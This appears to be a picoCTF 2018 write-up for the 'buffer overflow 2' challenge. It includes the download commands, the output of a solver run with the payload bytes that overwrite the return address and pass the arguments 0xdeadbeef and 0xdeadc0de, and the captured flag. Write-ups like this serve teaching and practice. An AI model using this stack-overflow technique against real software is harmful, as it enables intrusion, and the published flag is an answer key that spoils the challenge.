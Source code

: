 # buffer overflow 2

__PROBLEM__

Alright, this time you'll need to control some arguments. Can you get the flag from this [program](https://2018shell.picoctf.com/static/8ec59d858594f0e03108cf12e6177682/vuln)? You can find it in /problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa on the shell server. [Source](https://2018shell.picoctf.com/static/8ec59d858594f0e03108cf12e6177682/vuln.c).

__HINT__
Try using gdb to print out the stack once you write to it!

__SOLUTION__

```
wget https://2018shell.picoctf.com/static/8ec59d858594f0e03108cf12e6177682/vuln   --no-check-certificate
wget https://2018shell.picoctf.com/static/8ec59d858594f0e03108cf12e6177682/vuln.c --no-check-certificate
```

Solution found in [solver.py](./solver.py)

```sh
python solver.py
(venv) luk6xff@lu:~/Projects/ctf/writeups/picoCTF-2018/Binary-Exploitation/buffer overflow 2$ python solver.py
[*] '/home/luk6xff/Projects/ctf/writeups/picoCTF-2018/Binary-Exploitation/buffer overflow 2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
ELF('/home/luk6xff/Projects/ctf/writeups/picoCTF-2018/Binary-Exploitation/buffer overflow 2/vuln')
b'\xcb\x85\x04\x08'
[+] Connecting to 2018shell4.picoctf.com on port 22: Done
[*] luk6xff@2018shell4.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Opening new channel: 'cd /problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa && ./vuln': Done
b'Please enter your string: \n'
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅\x04BBBBﾭ\xde\xde\xc0\xad\xde
$                                                                                                                            picoCTF{addr3ss3s_ar3_3asy1b78b0d8}bash: line 1: 3723405 Segmentation fault      (core dumped) ./vuln
```

FLAG - `picoCTF{addr3ss3s_ar3_3asy1b78b0d8}`
